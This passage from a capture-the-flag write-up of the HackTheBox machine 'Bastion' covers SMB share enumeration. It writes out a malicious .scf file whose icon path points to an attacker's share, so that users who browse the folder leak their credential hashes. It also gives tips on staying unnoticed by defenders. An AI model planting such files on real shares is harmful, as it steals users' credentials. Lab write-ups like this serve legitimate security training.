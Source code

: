 Again, two things in this output stand out. First of all, there is a Backups directory which we have READ and WRITE access to. The fact that we have WRITE access to this is a huge red flag! This means that we could drop a malicious SCF (shell command file) to potentially steal hashes from users who access this file. We can write a .scf file with the following contents:

\[Shell\]

Command=2

IconFile=\\\\10.13.37.2\\share\\0xd4y.ico

\[Taskbar\]

Command=ToggleDesktop

Whenever a user browses to this file, Windows will attempt to authenticate to our share with the credentials of the user, meaning that we can capture these credentials (albeit the password is hashed). The fact that we have write access to a directory containing backups is especially alarming, as which users would normally access such a directory? Probably domain admins. There is an excellent article on this topic that I highly recommend you read ([https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://www.google.com/url?q=https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/&sa=D&source=editors&ust=1653959269091618&usg=AOvVaw0pGdwROOMk11BRZjNFPYMF)). Anyways, this is most likely not intended by the author because Bastion is an easy box and there are no real users on the system to execute the .scf file (as this is just a box rather than a real attack).

The other thing that stands out is this smbmap message:

\[\\\] Work\[!\] Unable to remove test directory at \\\\bastion.htb\\Backups\\GZHGUJOWDT, please remove manually

The smbmap tool knows that we have write access to \\Backups because it was able to write to it. However, the fact that it was not able to remove it shows that this created directory could be a way for defenders to find out that someone may be up to something malicious. In a real penetration testing environment, it may be more wise to use smbclient -L -U guest bastion.htb which lists the shares, but does not list the permissions:

![](/reports/Bastion/image17.png)

Ok, enough stalling. Let's just see what’s inside this \\Backups directory. I created a /smb directory on my machine (so that if I download a file it goes straight to the /smb directory) and connected to the SMB share:
